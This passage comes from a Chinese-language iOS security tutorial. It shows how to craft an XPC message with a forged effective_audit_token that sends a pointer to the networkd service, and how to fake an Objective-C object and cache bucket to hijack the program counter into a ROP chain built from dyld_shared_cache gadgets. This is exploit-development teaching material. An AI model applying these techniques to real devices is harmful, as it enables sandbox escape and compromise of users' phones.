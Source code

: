 ```

uint32_t uuid[] = {0x0, 0x1fec000};
xpc_dictionary_set_uuid(params, "effective_audit_token", (const unsigned char*)uuid);

xpc_dictionary_set_uint64(params, "start", 0);
xpc_dictionary_set_uint64(params, "duration", 0);

xpc_dictionary_set_value(dict, "parameters", params);

xpc_object_t state = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_int64(state, "power_slot", 0);
xpc_dictionary_set_value(dict, "state", state);

```

随后我们可以使用`NSLog(@"%@",dict);`将我们构造好以后的xpc数据打印出来：

![p6](http://drops.javaweb.org/uploads/images/ddf1f2aa1f90cf1ac0ef388f7c2cea40cf650019.jpg)

除了effective_audit_token以外的其他数据都是正常的。为了攻击这个系统服务，我们把`effective_audit_token`的值用`xpc_dictionary_set_uuid`设置为`{0x0, 0x1fec000};`。0x1fec000这个地址保存的将会是我们伪造的Objective-C对象。构造完xpc数据后，我们就可以将数据发送到networkd服务端触发漏洞了。但如何构造一个伪造的ObjectC对象，以及如何将伪造的对象保存到这个地址呢？请继续看下一章。

0x03 构造fake Objective-C对象以及Stack Pivot
======================================

* * *

首先我们需要通过伪造一个fake Objective-C对象和构造一个假的cache来控制pc指针。这个技术我们已经在《iOS冰与火之歌 – Objective-C Pwn and iOS arm64 ROP》中介绍了。简单说一下思路：

第一步，我们需要找到selector在内存中的地址，这个问题可以使用`NSSelectorFromString()`这个系统自带的API来解决，比如我们需要用到”release”这个selector的地址，就可以使用`NSSelectorFromString(@"release")`来获取。

第二步，我们要构建一个假的receiver，假的receiver里有一个指向假的objc_class的指针，假的objc_class里又保存了假的cache_buckets的指针和mask。假的cache_buckets的指针最终指向我们将要伪造的selector和selector函数的地址。这个伪造的函数地址就是我们要执行的ROP链的起始地址。

最终代码如下：

```
hs->fake_objc_class_ptr = &hs->fake_objc_class;
hs->fake_objc_class.cache_buckets_ptr = &hs->fake_cache_bucket;
hs->fake_objc_class.cache_bucket_mask = 0;
hs->fake_cache_bucket.cached_sel = (void*) NSSelectorFromString(@"release");
hs->fake_cache_bucket.cached_function = start address of ROP chain

```

既然通过fake Objective-C对象，我们控制了xpc service的pc，我们就可以在sandbox外做些事情了。但因为DEP的关系，如果我们没有给kernel打patch，我们并不能执行任意的shellcode。因此我们需要用ROP来达到我们的目的。虽然program image，library，堆和栈等都是随机，但好消息是`dyld_shared_cache`这个共享缓存的地址开机后是固定的，并且每个进程的`dyld_shared_cache`都是相同的。这个`dyld_shared_cache`有好几百M大，基本上可以满足我们对gadgets的需求。因此我们只要在自己的进程获取`dyld_shared_cache`的基址就能够计算出目标进程gadgets的位置。

`dyld_shared_cache`文件一般保存在/System/Library/Caches/com.apple.dyld/这个目录下。我们下载下来以后，可以使用jtool将里面的dylib提取出来。比如我们想要提取CoreFoundation这个framework，就可以使用：
